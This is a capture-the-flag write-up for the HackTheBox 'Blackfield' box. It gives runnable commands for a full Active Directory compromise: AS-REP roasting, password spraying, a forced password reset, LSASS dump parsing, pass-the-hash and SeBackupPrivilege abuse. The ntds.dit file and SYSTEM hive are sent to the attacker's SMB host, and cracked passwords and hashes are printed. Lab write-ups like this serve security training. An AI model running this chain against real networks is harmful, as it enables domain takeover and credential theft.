# Blackfield -- HackTheBox (write-up)

**Difficulty:** Hard
**Box:** Blackfield (HackTheBox)
**Author:** dsec
**Date:** 2024-04-18

---

## TL;DR

### AS-REP roasted the support account, used ForceChangePassword to take over audit2020, dumped LSASS from a forensic share to get svc_backup's hash, then abused SeBackupPrivilege with DiskShadow to dump ntds.dit and get the domain admin hash.

---

## Target info

- Domain: `blackfield.local`
- Services discovered: `53/tcp`, `88/tcp`, `135/tcp`, `389/tcp`, `445/tcp`, `3268/tcp`, `5985/tcp`

---

## Enumeration

```bash
nmap -p- --min-rate 10000 10.129.229.17 -Pn -vvv
```



```bash
nmap -p53,88,135,389,445,3268,5985 -sCV 10.129.229.17 -vvv -Pn
```



```bash
enum4linux -a -u "" -p "" 10.129.229.17 && enum4linux -a -u "guest" -p "" 10.129.229.17
```



```bash
nxc smb 10.129.229.17 -u 'guest' -p '' -M spider_plus && cat /tmp/nxc_spider_plus/10.129.229.17.json
```



```bash
smbclient -U 'guest%' //10.129.229.17/profiles$
```

- Huge list of directories with no files. Directories look like usernames -- saved as `users.txt`.

---

## AS-REP roasting

```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt
```



Got a hash for `support`. Cracked with hashcat:

```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

- `support:#00^BlackKnight`



---

## Lateral movement

```bash
nxc smb 10.129.229.17 -u 'support' -p '#00^BlackKnight' -M spider_plus && cat /tmp/nxc_spider_plus/10.129.229.17.json
```





Password spraying with the support creds:

```bash
nxc smb 10.129.229.17 -u 'users.txt' -p '#00^BlackKnight' --continue-on-success
```

- `+` on everyone except `audit2020` and `svc_backup`.



BloodHound analysis:

```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.229.17
```



- `support` has `ForceChangePassword` control over `audit2020`.

```bash
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.129.229.17 -c 'setuserinfo2 audit2020 23 "0xdf!!!"'
```

---

## Forensic share & LSASS dump

```bash
smbmap -H 10.129.229.17 -u audit2020 -p '0xdf!!!'
```

- `forensic` share has read access.
- `memory_analysis/lsass.zip` is most interesting -- LSASS is the same thing mimikatz dumps.
- `command_output/domain_admins.txt` shows extra domain admin account `Ipwn3dYourCompany`.

```bash
pypykatz lsa minidump lsass.DMP
```



- `svc_backup` NT hash: `9658d1d1dcd9250115e2205d9f48400d`

---

## Shell as svc_backup

```bash
evil-winrm -i 10.129.229.17 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```



`whoami /priv` shows `SeBackupPrivilege`:



- `SeBackupPrivilege` means user is in the Backup Operators group -- can read/write most files on the system.

---

## Privilege escalation (DiskShadow + ntds.dit)

Used DiskShadow to create a volume shadow copy:

Created `vss.dsh`:
```
set context persistent nowriters
add volume c: alias df
create
expose %df% z:
```

```bash
unix2dos vss.dsh
diskshadow /s c:\programdata\vss.dsh
```

Set up SMB server and exfiltrated ntds.dit and SYSTEM hive:

```bash
smbserver.py s . -smb2support
```

```powershell
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.172\s\ntds.dit
reg.exe save HKLM\SYSTEM C:\system.hiv
Copy-Item C:\system.hiv \\10.10.14.172\s\system
```

Dumped hashes:

```bash
secretsdump.py -system system -ntds ntds.dit LOCAL
```



- Administrator hash: `aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee`

```bash
evil-winrm -i 10.129.229.17 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

---

## Lessons & takeaways

- SMB shares with directory names that look like usernames are a goldmine for user enumeration
- BloodHound's Outbound Object Control view reveals relationships like ForceChangePassword that you would **not** find manually
- LSASS dumps from forensic shares are just as good as running mimikatz on a live system
- SeBackupPrivilege + DiskShadow is a reliable path to domain admin via ntds.dit extraction
